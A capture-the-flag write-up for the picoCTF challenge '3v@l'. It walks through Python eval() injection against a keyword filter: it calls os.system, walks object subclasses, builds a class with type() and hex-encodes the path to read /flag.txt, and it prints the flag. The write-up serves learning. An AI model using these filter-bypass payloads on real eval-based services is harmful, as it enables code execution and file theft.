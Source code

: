 ## 3v@l

[Link to challenge](https://play.picoctf.org/practice/challenge/484)

Write-up:

1. The challenge is vulnerable to Python `eval()` injection. My first attempt was to run a system command:

    ```python
    __import__('os').system('ls')
    ```

    But this returned `Error: Detected forbidden keyword 'os'.`
    So, direct access to the `os` module is blocked.

1. To bypass keyword restrictions, I tried:

    ```python
    ().__class__.__base__.__subclasses__()
    ```

    This returns a long list of all subclasses of Python's base object, including many useful classes.

3. I filtered the subclasses for file and IO-related classes:

    ```python
    [c.__name__ for c in ().__class__.__base__.__subclasses__() if "File" in c.__name__ or "IO" in c.__name__]
    ```

    This revealed several interesting classes, such as `FileWrapper`, `ZipFile`, and `_IOBase`.

4. I tried to use one of these classes to read the flag:

    ```python
    [cls for cls in ().__class__.__base__.__subclasses__() if cls.__name__=="FileWrapper"][0]("/flag.txt").read()
    ```

    But this failed with: `Error: Detected forbidden keyword 'ls'.`
    It seems the challenge blocks certain keywords, possibly by scanning for substrings like "ls" (which appears in "cls").

5. Looking at the hints, we see: **You might need encoding or dynamic construction to bypass restrictions.** We can dynamiccaly create a class using `type`: <br>

    ```python
    type('dynamicClass', (object,), {
        'method': lambda self: open('/flag.txt').read()
        })().method()
    ```

    We get the following error message: **Error: Detected forbidden keyword ''.**

6. Following the hint, we attempt to use encoding:

    ```python
    type('dynamicClass', (object,), {
        'method': lambda self: open((bytes.fromhex('2f666c61672e747874').decode('utf-8'))).read()
    })().method()
    ```

    This gets us the flag: **picoCTF{D0nt_Use_Unsecure_f@nctionsf847a9bc}**